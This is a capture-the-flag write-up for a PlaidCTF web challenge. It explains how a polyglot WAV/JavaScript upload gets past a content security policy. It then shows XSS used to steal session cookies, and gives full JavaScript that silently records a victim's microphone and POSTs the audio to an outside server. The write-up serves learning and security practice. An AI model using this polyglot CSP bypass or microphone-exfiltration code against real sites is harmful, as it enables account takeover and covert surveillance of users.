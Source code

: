idIoT: Action
=============

PlaidCTF Web 200

Some people won't let any smart devices in their home at all. Some are cautious, do their research, and make an informed decision. This guy falls in neither category; he's a a downright idIoT.

The idIoT uses this service called [clipshare](https://idiot.chal.pwning.xxx/); you can find his account [here](https://idiot.chal.pwning.xxx/user.php?id=3427e48e-a6eb-4323-aed4-3ce4a83d4f46) or [here](https://idiot.chal.pwning.xxx/user.php?id=8660d251-d77c-4316-ac2c-a9a0662e6240) after you make an account.

He was telling me the other day about how he has a Google Home next to his computer running at all times. He also told me that if you ask politely it will tell you the flag. However, while he'll look at anything you share, he closes it almost immediately if he doesn't seem like it'll interest him. Maybe we can look at his clips to find something to match his interests?

(Flag format: PCTF{xxx} where xxx is some text composed of lower-case letters and underscores)

solution
========

TRIGGER ALERT: some people may find many of the variable names and random strings used to be offensive. No harm was meant, but if you are easily triggered, please do not read further. By reading further you consent to reading possible trigger words.

Based on the problem statement, it looks like this problem will be split into two parts:

1. Hack idiot's account
2. Hack idiot's google home using whatever data we get from his account.

Playing around with the site, it looks like it's vulnerable to xss:

![xss screenshot](https://i.imgur.com/r6gkrHh.png)

Unfortunately, our script is blocked from running by the CSP.

![cucked](https://i.imgur.com/Xj1NQrf.png)

We note that CSP states that scripts can only run from `script-src 'self'`. This means that any javascript I use must come from the server itself. But wait a second: we can post audio files to the website? Is it possible that we could use one of these audio files as our javascript source?

After looking over [this](https://steemit.com/ctf/@maniffin/defcamp-ctf-quals-2017-llc-webchall-writeup) writeup from defcamp, where a crafted GIF file was used to bypass CSP, I felt like it would be possible. So we needed to find an acceptable file format that could also be malformed into valid javascript, while remaining a valid audio file. After playing with ogg files for a while, I realized that WAV files would work:

![wow](https://i.imgur.com/tJUUifV.png)

Here, I've modified the WAV's header such that it is still a valid header, but everything is commented out except the initial `RIFF`. Below, after some bytes from the template WAV file I used, I simply close the comment and finish the javascript command by assigning `RIFF` a value as a variable. After that, I can just add a semicolon, and put any javascript code I want!

... Theoretically.

Unfortunately, uploading this file as a `.wav` did not work, since its MIME type was `audio/x-wav` and was not executable.

![sad](https://i.imgur.com/0iplXMP.png)

Attempting to rename the file to other formats, like `.ogg` still allowed me to upload it, but it still had an audio MIME type. But wait: according to [this site](https://www.freeformatter.com/mime-types-list.html), `.wave` has no associated MIME type, but we are still allowed to upload it!

I ended up uploading this payload:

![lol](https://i.imgur.com/zYkro4Q.png)

Note: this immediately redirects the page to my server when you import it, which may make a later step harder. If you want you can change the payload to something else that will still allow you to exfiltrate the cookie. After uploading, 

Next, I simply created a new post with body

```
<script src="https://idiot.chal.pwning.xxx/uploads/upload_5aee08ef0275e0.94993532.wave"></script>
```

Which, when accessed, immediately steals your cookie! Using burp suite, we shared this link with idiot1 and idiot3, and got cookies.

`qwer=bbcgvivohijl6bgjg37jl6g497;%20PHPSESSID=m1on6drcdgjf7q6hdmm7k2vsi1`

I'm not sure what the qwer cookie was, but oh well. Pasting them as my cookies, I am able to auth as idiot1.

![hacked](https://i.imgur.com/5GP98ee.png)

Reading the posts, it seems that the user will only listen to audio if we send `spatulate` in the description, and from the audio clip in `thoughts on google home`, it states that if you say `OK Google, what is the flag` the google home will say the flag.

Now our next attack is to:

1. hack the microphone
2. use our own uploaded audio clip to say "OK google, what is the flag"
3. exfiltrate microphone recorded data to our own server
4. Get flag!

After some google hackery and copy paste skills, I ended up with this javascript code to activate the microphone, record for 20 seconds, convert the recorded audio data into webm format and then into hex, and send it to my teammate's server (which was HTTPS, since mine was only http). 

Note: this doesn't use the website's record feature, so it is not saved on the website in /uploads/. It is stored client-side as a blob: url, so I need to exfiltrate that from their computer. It turned out that the data I wanted to send was too long to use as a GET parameter, so we needed a server to POST to instead. The hardest part of this was actually getting the https exfiltration server up and running. Note: I've redacted my teammate's url because he didn't want to get doxxed :^).

```javascript
// appends an audio element to playback and download recording
function createAudioElement(blobUrl) {
  var oReq = new XMLHttpRequest();
  oReq.open("GET", blobUrl, true);
  oReq.responseType = "arraybuffer";

  oReq.onload = function (oEvent) {
    var arrayBuffer = oReq.response; // Note: not oReq.responseText
    if (arrayBuffer) {
      var sicedeets = Array.prototype.map.call(new Uint8Array(arrayBuffer), x => ('00' + x.toString(16)).slice(-2)).join('');
      var oreq2 = new XMLHttpRequest();
      oreq2.open("POST", "<redacted>", true);
      oreq2.send(sicedeets);

      /*
      for (var i=0; i<sicedeets.length; i += 10000) {
        var oreq2 = new XMLHttpRequest();
        oreq2.open("POST", "<redacted>", true);
        oreq2.send(i+"_"+sicedeets.slice(i,i+10000));
      }*/

      
    }
  };

  oReq.send(null);
}

// request permission to access audio stream
navigator.mediaDevices.getUserMedia({ audio: true }).then(stream => {
    // store streaming data chunks in array
    const chunks = [];
    // create media recorder instance to initialize recording
    const recorder = new MediaRecorder(stream);
    // function to be called when data is received
    recorder.ondataavailable = e => {
      // add stream data to chunks
      chunks.push(e.data);
      // if recorder is 'inactive' then recording has finished
      if (recorder.state == 'inactive') {
          // convert stream data chunks to a 'webm' audio format as a blob
          const blob = new Blob(chunks, { type: 'audio/webm' });
          // convert blob to URL so it can be assigned to a audio src attribute
          createAudioElement(URL.createObjectURL(blob));
      }
    };
    // start recording with 1 second time between receiving 'ondataavailable' events
    recorder.start(1000);
    // setTimeout to stop recording after 4 seconds
    setTimeout(() => {
        // this will trigger one final 'ondataavailable' event and set recorder state to 'inactive'
        recorder.stop();
    }, 20000);
  }).catch(console.error);
```

Similarly to our previous attack, I paste this into a malformed wave file:

![screenshot](https://i.imgur.com/LEZQ02D.png)

Again, I upload this file, and copy the URL for it. Then, I import it in another post with title and description `spatulate`.

![spatulate](https://i.imgur.com/8SJefql.png)

Next, I share it with idiot1 again, and wait for the data to start rolling in. After receiving the hex data from idiot1's computer, I simply paste the hex into a hex editor and save as a webm file.

![webm deets](https://i.imgur.com/jbfwkUw.png)

Finally, opening the audio and listening to it gives us the flag. I have not attached the audio file because listening to my soft loli voice would probably put all of you guys on a federal watchlist. /s

Flag: `pctf{not_so_smart}`
